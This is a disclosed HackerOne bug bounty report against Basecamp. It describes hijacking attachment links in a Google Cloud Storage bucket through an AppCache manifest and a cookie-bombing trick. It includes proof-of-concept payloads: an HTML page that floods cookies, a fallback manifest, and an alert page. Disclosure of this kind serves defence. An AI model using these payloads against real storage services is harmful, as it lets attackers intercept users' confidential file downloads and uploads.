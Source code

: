 # Attachments may be hijacked via AppCache+CookieBombing trick (bc3_production_blobs bucket)

## Report Details
- **Report ID**: 403602
- **URL**: https://hackerone.com/reports/403602
- **State**: Closed
- **Severity**: high
- **Submitted**: 2018-08-31T18:58:43.094Z
- **Disclosed**: 2020-11-26T18:20:26.237Z

## Reporter
- **Username**: hudmi
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: basecamp

## Vulnerability Information
Basecamp attachments are stored in the `bc3_production_blobs` bucket in the root directory and can be served with `text/html` content-type. 

https://storage.googleapis.com/bc3_production_blobs/*key*?GoogleAccessId=bc3-production-storage%40bc3-production.iam.gserviceaccount.com&Expires=1535826443&Signature=*sign*&response-content-type=text/html

So with AppCache+CookieBombing trick an attacker can upload html file and if the user visit url of this file then all further uploads to this bucket and downloads from it will be hijacked by an attacker. 
To know more about this trick refer to https://labs.detectify.com/2018/08/02/bypassing-exploiting-bucket-upload-policies-signed-urls/

##Reproduction steps
To upload the files:
1. Login to 3.basecamp.com
2. Open campfire of any project
3. Upload target files 
4. Extract direct links of them to Google Storage and remove `response-content-disposition` param

I have uploaded 3 files by this way:
```
<html manifest="[manifest_url]">
This is the test page for a PoC. Now if you send any request in this bucket it will be hijacked.
<script>
setTimeout(function(){
for(var i = 1e3; i>0; i--){document.cookie = i + '=' + Array(4e3).join('0') + '; path=/'};
}, 3000);
</script>
</html>
```
```
CACHE MANIFEST 

FALLBACK:
/bc3_production_blobs/ [fallback_url]
```
```
<html>
<script>
alert('Your request to the page '+location.href+' is hijacked!');
</script>
</html>
```

##PoC
Go to http://████████/bc3attach and then try to open any direct link of `bc3_production_blobs` bucket. You will see alert popup with full url of this file.
Refer to the video.

## Impact

Direct links to any attachments can be hijacked and confedential files can be compromised

## Attachments
- capture-132.avi

